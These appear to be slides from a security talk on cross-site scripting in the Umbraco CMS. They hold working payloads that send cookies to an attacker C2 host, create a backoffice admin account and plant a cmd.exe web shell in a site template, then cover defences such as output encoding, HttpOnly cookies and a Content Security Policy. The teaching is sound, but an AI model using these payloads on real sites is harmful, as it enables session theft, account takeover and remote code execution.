

ü§¨
Offensive Umbraco: The Prequel
The Power of XSS
Steven HarlandMe üëÄ
- Security Analyst @ Quorum Cyber
- Former Developer @ Intelligent Mobile
- Former Umbraco Master
- CG21 Speaker
Codegarden 2021 üò±
- Introduction to Offensive Security
- Backoffice "assumed breach" scenario
- https://youtu.be/l2HhURPOMi0
Initial Access üîë
Initial Access üîë
- Weak passwords
- Brute forcing
- Leaked credentials
- Phishing
- Social engineering
- Insider threat
-
Exploiting vulnerabilities
- In Umbraco core or packages
- On the front-end
- ...
Demo: Cross-Site Scripting (XSS)
Cookie Grabber
<script>
fetch('https://c2.umbsec.icu/', {
method: 'POST',
body: document.cookie
});
</script>
Cookie Grabber Operation

Trying Harder üé®
We can call any backoffice API from JavaScript code on the front-end of a site provided:
- The backoffice and front-end are hosted on the same domain
- The user viewing the front-end is currently logged into the backoffice
- The user has permission to call the API in question
XSS ➡ Umbraco Admin
<script>
(async function () {
// Object representing the new user
const data = {
id: -1,
parentId: -1,
name: 'TestUser',
email: 'test@web.umbsec.icu',
userGroups: ['admin']
};
// Call create user API
const response = await fetch(
'/umbraco/backoffice/UmbracoApi/Users/PostCreateUser', {
method: 'POST',
body: JSON.stringify(data),
credentials: 'include',
headers: {
'x-umb-xsrf-token': getCookie('UMB-XSRF-TOKEN'),
'Content-Type': 'application/json',
}
});
// Send response to attack server
await fetch('https://c2.umbsec.icu/', {
method: 'POST',
body: await response.text()
});
})();
function getCookie(name) {
return document.cookie.match('(^|;)\\s*'
+ name + '\\s*=\\s*([^;]+)')?.pop() || '';
}
</script>
XSS ➡ RCE
<script>
(async function () {
const payload = `
@if (!string.IsNullOrEmpty(Request.QueryString["cmd"]))
{
try
{
using (var process = new System.Diagnostics.Process())
{
process.StartInfo.FileName = "cmd.exe";
process.StartInfo.Arguments = "/c " + Request.QueryString["cmd"];
process.StartInfo.CreateNoWindow = true;
process.StartInfo.RedirectStandardOutput = true;
process.StartInfo.UseShellExecute = false;
process.Start();
var output = process.StandardOutput.ReadToEnd();
process.WaitForExit();
@output
}
}
catch { }
}
`;
// Get all templates
const allTemplatesResponse = await fetch(
'/umbraco/backoffice/UmbracoApi/Template/GetAll', {
method: 'GET',
credentials: 'include',
headers: {
'x-umb-xsrf-token': getCookie('UMB-XSRF-TOKEN')
}
});
const allTemplates = JSON.parse((await allTemplatesResponse.text()).slice(6));
// Get home template
const homeTemplateStub = allTemplates.find(x => x.name.includes('Home'));
const homeTemplateResponse = await fetch(
'/umbraco/backoffice/UmbracoApi/Template/GetById?id=' + homeTemplateStub.id, {
method: 'GET',
credentials: 'include',
headers: {
'x-umb-xsrf-token': getCookie('UMB-XSRF-TOKEN')
}
});
const homeTemplate = JSON.parse((await homeTemplateResponse.text()).slice(6));
// Add payload
homeTemplate.content = homeTemplate.content + payload;
// Save template
const response = await fetch(
'/umbraco/backoffice/UmbracoApi/Template/PostSave', {
method: 'POST',
body: JSON.stringify(homeTemplate),
credentials: 'include',
headers: {
'x-umb-xsrf-token': getCookie('UMB-XSRF-TOKEN'),
'Content-Type': 'application/json',
}
});
// Send response to attack server
await fetch('https://c2.umbsec.icu/', {
method: 'POST',
body: await response.text()
});
})();
function getCookie(name) {
return document.cookie.match('(^|;)\\s*'
+ name + '\\s*=\\s*([^;]+)')?.pop() || '';
}
</script>
Defence üõ°Ô∏è
// BlogCommentSurfaceController.cs
[HttpPost]
[ValidateUmbracoFormRouteString]
public ActionResult SubmitComment(CommentViewModel viewModel)
{
if (!ModelState.IsValid)
{
return CurrentUmbracoPage();
}
using (var scope = _scopeProvider.CreateScope())
{
var model = new BlogCommentSchema
{
BlogPostUmbracoId = CurrentPage.Id,
Name = viewModel.Name,
Message = viewModel.Message
};
scope.Database.Insert(model);
scope.Complete();
}
return RedirectToCurrentUmbracoPage();
}
// CommentViewModel.cs
[AllowHtml]
public string Message { get; set; }
// Comment.cshtml
@Html.Raw(Model.Message)
This is just one example of how XSS can arise.
XSS Prevention üö´
- Validate input
- Sanitise input
- Encode output
https://portswigger.net/web-security/cross-site-scripting/preventing
Safety Nets ü•Ö
- Host the backoffice and front end on separate domains
- Set the HttpOnly flag on your cookies
- Define a Content Security Policy
Content Security Policy üöì
- HTTP header or meta tag
- Tells browsers where it's safe to load resources from
Content-Security-Policy: connect-src 'self';

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src